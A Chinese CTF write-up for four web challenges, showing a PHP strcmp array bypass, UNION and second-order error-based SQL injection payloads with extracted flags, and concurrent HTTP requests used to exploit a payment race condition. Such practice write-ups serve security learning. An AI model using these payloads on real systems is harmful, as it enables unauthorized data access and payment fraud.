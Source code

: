 ```yaml
---
title: 中计量现科CTF竞赛
date: 2020-06-21
image: 
description: 由中国计量大学现代科技学院主办的比赛。
categories: 
- ctf_writeup
tags:
- 二次注入
- 条件竞争
---
```



------

### easyweb

源码忘了脱下来，大概考察PHP strcmp()函数，直接数组绕过

```
?password[]=shit
```

 

 

 

### 成绩单

白给题，Union注入无任何过滤，上来直接一血

```
id=-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
//fl4g,sc
id=-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='fl4g'#
//flag
id=-1' union select 1,flag,3,4 from fl4g#
//flag{Sql_INJECT0N_4813drd8hz4}
```

 

 

 

 

### shop

考点：条件竞争

说实话一开始以为是逻辑漏洞，尝试了半天没搞出来，想到了条件竞争但是因为爆破的时候线程设置的不够高，所以没搞出来，时候来又尝试了一次才想到。

#### 什么是条件竞争

参考：https://www.jianshu.com/p/09d0eb938e6a


竞争条件发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。

开发者在进行代码开发时常常倾向于认为代码会以线性的方式执行，而且他们忽视了并行服务器会并发执行多个线程，这就会导致意想不到的结果。

线程同步机制确保两个及以上的并发进程或线程不同时执行某些特定的程序段，也被称之为临界区（critical section），如果没有应用好同步技术则会发生“竞争条件”问题。



#### 两个例子

##### 例1：金额提现

假设现有一个用户在系统中共有2000元可以提现，他想全部提现。于是该用户同时发起两次提现请求，第一次提交请求提现2000元，系统已经创建了提现订单但还未来得及修改该用户剩余金额，此时第二次提现请求同样是提现2000元，于是程序在还未修改完上一次请求后的余额前就进行了余额判断，显然如果这里余额判断速度快于上一次余额修改速度，将会产生成功提现的两次订单，而数据库中余额也将变为-2000。而这产生的后果将会是平台多向该用户付出2000元。

 

##### 例2：先存储文件，再判断是否合法，然后再删除。

首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，典型的“引狼入室”

攻击：首先上传一个php文件

当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的php文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个shell。

#### 回到题目

打开题目，显示账户剩余20元，flag需要21元，然后你可以输入小于等于20元的金额，另外有个重置按钮

思路就是分别抓两个包，一个不停的支付20元，一个不停的重置，在高并发的情况下服务器响应不过来就可以造成支付两次

注意事项就是支付金额最好是10元以上，如果是一两元的话，就不能和另外一个包形成竞争还有就是线程要多

```
POST / HTTP/1.1
Host: aaaed42d.yunyansec.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/§72§.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://aaaed42d.yunyansec.com
Connection: close
Referer: http://aaaed42d.yunyansec.com/
Upgrade-Insecure-Requests: 1
 
money=20&submit=
POST / HTTP/1.1
Host: aaaed42d.yunyansec.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/§72§.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://aaaed42d.yunyansec.com
Connection: close
Referer: http://aaaed42d.yunyansec.com/
Upgrade-Insecure-Requests: 1
 
money=&restart=1
```

开两个intruder，线程20，爆破出flag

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120171516.png)

 

 

### easy

考点：二次注入

打开就一个注册登录界面，admin账户已经注册了，登录之后可以改密码，本来以为是越权，后来放出了hint是二次注入，以前对于这样的二次注入比较陌生，感觉此题还是有点意思

 

#### 利用注册用户名进行sqli

注册这里没有sqli，在改密码那里才可以触发，盲猜查询语句：

```
update XXX set password = "xxx" where username = "xxx" and (old)password = "xx";
```

hint提示了注入之后，在注册用户名那里，注册：

```
admin"#
```

登录进去之后，修改密码为123456，改完之后我们可以直接123456登录admin的账户了，说明我们已经注入成功了

但是到这里一筹莫展，后来才想到可以继续利用sqli查信息

 

#### 利用报错注入查信息

简单fuzz了一下，空格，/**/这些被过滤了，update不知道能不能union，我直接想到报错注入+括号套娃

```
test"||updatexml(2,concat(0x7e,(database())),0)#
//easy
abc"||updatexml(2,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)='easy')),0)#
//article,flag,user
abc"||updatexml(2,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)='flag')),0)#
//flag
abc"||updatexml(2,concat(0x7e,(select(flag)from(flag))),0)#
//flag{We11D0Ne_hOhO}
```

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120171534.png)

其实主要就是这个二次注入比较难想到，学到许多